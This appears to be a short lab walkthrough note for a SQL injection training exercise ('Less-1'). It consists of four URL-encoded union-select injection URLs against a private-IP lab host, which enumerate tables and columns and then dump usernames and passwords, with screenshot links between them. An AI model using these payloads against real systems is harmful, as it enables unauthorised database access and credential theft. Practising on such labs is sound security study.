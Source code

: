 `http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables where table_schema="security"--+`

![](assets/markdown-img-paste-20180417170129585.png)

`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%22users%22--+`

![](assets/markdown-img-paste-20180417170526725.png)

`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(username),3%20from%20users--+`

![](assets/markdown-img-paste-20180417170451562.png)

`http://10.101.177.100:9990/Less-1/?id=-1%27%20union%20select%201,group_concat(password),3%20from%20users--+`
